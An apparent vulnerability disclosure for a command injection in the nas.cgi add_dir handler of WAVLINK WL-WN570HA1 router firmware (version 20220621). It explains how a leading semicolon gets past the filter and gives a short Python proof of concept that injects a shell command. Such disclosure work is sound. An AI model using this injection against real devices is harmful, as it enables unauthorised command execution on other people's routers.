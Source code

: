 # command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in nas.cgi/add_dir

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:

![](9.png)

get value from disk_part

and check the ';', but if ';' is in the first of string, bypass and cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'add_dir', 'disk_part': + payload})
```

